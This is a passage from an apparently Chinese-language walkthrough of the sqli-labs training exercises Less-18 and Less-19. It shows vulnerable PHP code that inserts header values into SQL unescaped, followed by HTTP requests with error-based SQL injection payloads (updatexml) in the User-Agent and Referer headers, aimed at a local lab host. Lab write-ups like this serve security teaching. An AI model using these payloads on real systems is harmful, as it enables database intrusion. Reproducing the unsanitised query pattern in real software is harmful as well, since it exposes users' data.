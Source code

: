 ```php
        echo "<br>";
        echo 'Your User Agent String:'. $uagent;
        echo "<br>";
        echo 'Your User Agent String:'. $IP;
        */
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$result1 = mysql_query($sql);
$row1 = mysql_fetch_array($result1);
                if($row1)
                        {
                        echo '<font color= "#FFFF00" font size = 3 >';
                        $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
                        mysql_query($insert);
                        echo '<font color= "#0000ff" font size = 3 >';
                        echo 'Your User Agent is: ' .$uagent;
                        print_r(mysql_error());
                        }
                else
                        {
                        print_r(mysql_error());  
                        }
}
```

ua头注入

```http
POST /Less-18/ HTTP/1.1
Host: 192.168.27.14
User-Agent: 1' and updatexml(1,concat(0x7e,user(),0x7e),1) and '1'='1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

uname=Dumb&passwd=0&submit=Submit
```

## less-19 Referer 报错注入

和上面一样的，换了个http头

```http
POST http://192.168.27.14/Less-19/ HTTP/1.1
Host: 192.168.27.14
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Referer: ' and updatexml(1,concat(0x7e,user()),1) and '1'='1
Connection: keep-alive
Content-Length: 33

uname=Dumb&passwd=0&submit=Submit
```
